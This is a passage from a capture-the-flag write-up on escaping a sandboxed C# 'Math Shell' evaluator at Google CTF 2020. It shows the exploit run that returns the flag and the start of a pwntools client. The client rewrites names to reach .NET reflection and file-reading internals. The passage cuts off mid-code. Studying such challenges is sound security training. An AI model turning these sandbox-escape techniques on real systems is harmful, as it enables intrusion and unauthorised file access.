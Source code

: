 Using the attached script, we can run our exploit (`stager` loads the first
assembly, `stage2` loads the second one):

```  
$ ./repl.py  
[+] Opening connection to mathsh.2020.ctfcompetition.com on port 1337: Done  
Welcome to Math Shell.  
Type exit() to close the shell, or help() for some help.  
Type expression to evaluate, e.g. Math.Log(1.2, 3.4) + 5.6.  
$ stager

$ stage2  
constructed jsshell  
got resolver  
Launching assembly  
stage2 result: CTF{C#_is_the_best_programming_language_change_my_mind}  
```

## Code

### Python Client

```python  
#!/usr/bin/env python3  
from __future__ import unicode_literals  
from pwn import *  
from prompt_toolkit import PromptSession  
from prompt_toolkit.lexers import PygmentsLexer  
from pygments.lexers.dotnet import CSharpLexer

r = remote("mathsh.2020.ctfcompetition.com", 1337)

REPLACEMENTS = {  
   'System': '__global__.System',  
   'ASCII': '__global__.System.Text.Encoding.ASCII',  
   'ReadAllBytes': '__global__.System.IO.File.ReadAllBytes',  
   'CallMethod': '__global__.JScriptRunner.JScriptUtils.CallMethod',  
   '"CallMethod': '"CallMethod',  
   '"CallMethod': '"CallMethod',  
   'GetMethod': '__global__.JScriptRunner.JScriptUtils.GetMethod',  
   'FindType': "__global__.JScriptRunner.JScriptUtils.FindType",  
}

GLOBAL_RE = re.compile(r'(' + '|'.join(re.escape(mod) for mod in REPLACEMENTS)
+ ')')  
def preprocess(code):  
   def rep_func(match):  
       return REPLACEMENTS[match.group(1)]

   code = GLOBAL_RE.sub(rep_func, code)  
   return code

def save_bytes(out):  
   bs = bytes(int(x) for x in out.split('\n') if x)  
   with open("dump.bin", "wb") as f:  
       f.write(bs)  
   return "saved to dump.bin"

def call_secure(cls, method, *args):  
   method_args = ','.join(str(x) for x in args)  
   cls_type = f'__global__.JScriptRunner.JScriptUtils.FindType("{cls}", true)'  
   call_args = f'{cls_type},"{method}",true,array({method_args})'  
   return f'''  
   __global__.JScriptRunner.JScriptUtils.CallMethod(  
```